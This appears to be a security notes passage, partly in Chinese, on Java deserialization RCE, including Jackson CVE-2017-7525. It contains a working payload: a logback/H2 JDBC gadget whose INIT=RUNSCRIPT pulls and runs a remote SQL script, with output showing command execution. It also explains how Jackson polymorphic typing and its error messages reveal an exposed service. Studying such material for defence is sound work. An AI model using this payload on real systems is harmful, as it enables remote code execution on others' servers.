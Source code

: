 然后通过如下方式运行RCE：

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]"

$ cat exploited.txt
uid=501(...) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```

---


# CVE-2017-7525 - Jackson RCE


```java

// JSON -> java object

// There are a couple of ways to use Jackson
// perform a binding to a single object,
// pulling the values from the JSON
// and setting the properties on the associated Java object.
// This is simple, straightforward, and likely not exploitable.
{
  "name" : "Bob", "age" : 13,
  "other" : {
     "type" : "student"
  }
}


// you are create arbitrary objects, and you will see their class name in the JSON document.
// If you see this, it should raise an immediate red flag.
// Here’s a sample of what these look like:
{
  "@class":"MyApp.Obj",
  val:[
    "java.lang.Long",
    1
  ]
}

```

To determine if this really is Jackson that you are seeing, one technique is (if detailed error messages are available) to provide invalid input and look for references to either of these:

- `com.fasterxml.jackson.databind`
- `org.codehaus.jackson.map`
